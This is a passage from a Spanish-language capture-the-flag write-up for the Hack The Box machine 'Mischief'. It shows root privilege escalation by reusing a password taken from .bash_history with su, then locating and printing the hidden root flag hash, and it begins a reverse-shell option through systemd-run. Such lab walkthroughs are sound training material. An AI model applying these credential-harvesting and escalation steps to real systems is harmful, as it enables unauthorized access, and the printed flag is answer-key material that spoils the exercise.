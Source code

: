 ## Shell as root Option 1 && root flag 

Pues bueno como otros usuarios pueden ejecutar **su** podemos hacerlo con **www-data** y le pasamos la contraseña que encontramos en el **.bash_history**

```bash
www-data@Mischief:/var/www/html$ su
Password: 
root@Mischief:/var/www/html# whoami
root
root@Mischief:/var/www/html# 
```

Pero bueno nos están diciendo que aquí nos esta la flag 

```bash
root@Mischief:~# cat root.txt 
The flag is not here, get a shell to find it!
root@Mischief:~# 
```

Pero no es tan difícil buscarla

```bash
root@Mischief:~# find / -name root.txt
/usr/lib/gcc/x86_64-linux-gnu/7/root.txt
/root/root.txt
root@Mischief:~# 
```

```bash
root@Mischief:~# cat /usr/lib/gcc/x86_64-linux-gnu/7/root.txt
ae155fad479c56f912c65d7be4487807
root@Mischief:~# 
```

## Shell as root Option 2 

Pues bueno nos dicen que nos enviemos una **shell** así que podemos hacer eso 

Como alternativa podemos usar `systemd-run`  

![](/assets/images/htb-writeup-mischief/web20.png)
